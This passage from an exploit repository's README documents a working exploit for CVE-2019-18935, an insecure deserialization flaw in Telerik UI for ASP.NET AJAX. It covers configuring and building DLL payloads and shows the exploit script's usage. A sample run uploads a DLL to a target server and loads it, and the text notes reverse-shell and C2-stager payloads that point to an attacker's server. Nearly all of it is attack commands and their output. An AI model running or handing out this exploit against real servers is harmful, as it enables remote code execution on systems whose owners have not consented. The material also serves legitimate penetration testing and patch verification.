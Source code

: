 ### Configure

Point [line 17](https://github.com/noperator/CVE-2019-18935/blob/master/build-dll.bat#L17) of `build-dll.bat` to the path of your Visual Studio installation.

```vbscript
set VSPATH=C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\VC\Auxiliary\Build
```

### Usage

```
$ python3 CVE-2019-18935.py -h
usage: CVE-2019-18935.py [-h] [-t] [-d] [-r FILENAME_REMOTE] [-s SMB_SERVER]
                         [-v UI_VERSION] [-n NET_VERSION] [-p PAYLOAD]
                         [-f FOLDER] -u URL

Exploit for CVE-2019-18935, a .NET JSON deserialization vulnerability in
Telerik UI for ASP.NET AJAX.

optional arguments:
  -h, --help          show this help message and exit
  -t                  just upload a file
  -d                  just deserialize
  -r FILENAME_REMOTE  remote payload name, for optional use with -d
  -s SMB_SERVER       remote SMB server, for optional use with -d
  -v UI_VERSION       software version
  -n NET_VERSION      .NET version
  -p PAYLOAD          mixed mode assembly DLL
  -f FOLDER           destination folder on target
  -u URL              https://<HOST>/Telerik.Web.UI.WebResource.axd?type=rau
```

#### Compile mixed mode .NET assembly DLL payload

Some payloads (e.g., `reverse-shell.c` and `sliver-stager.c`) require you to set the `HOST` and `PORT` fields to point to your C2 server—be sure to do that!

In a Windows environment with Visual Studio installed, use `build-dll.bat` to generate 32- and 64-bit mixed mode assembly DLLs to be used as a payload during deserialization. You may optionally specify a target CPU architecture as a second CLI argument (e.g., `x86`).

```vbscript
build-dll.bat sleep.c
```

#### Upload payload to target, and load payload into application

Pass the DLL generated above to `CVE-2019-18935.py`, which will upload the DLL to a directory on the target server (provided that the web server has write permissions in that directory) and then load that DLL into the application via the insecure deserialization exploit.

```
$ python3 CVE-2019-18935.py -v <VERSION> -p payloads/sleep-2019121205271355-x86.dll -u <HOST>/Telerik.Web.UI.WebResource.axd?type=rau
[*] Local payload name:  sleep-2019121205271355-x86.dll
[*] Destination folder:  C:\Windows\Temp
[*] Remote payload name: 1576142987.918625.dll

{'fileInfo': {'ContentLength': 75264,
              'ContentType': 'application/octet-stream',
              'DateJson': '1970-01-01T00:00:00.000Z',
              'FileName': '1576142987.918625.dll',
              'Index': 0},
 'metaData': {'AsyncUploadTypeName': 'Telerik.Web.UI.UploadedFileInfo, '
                                     'Telerik.Web.UI, Version=<VERSION>, '
                                     'Culture=neutral, '
```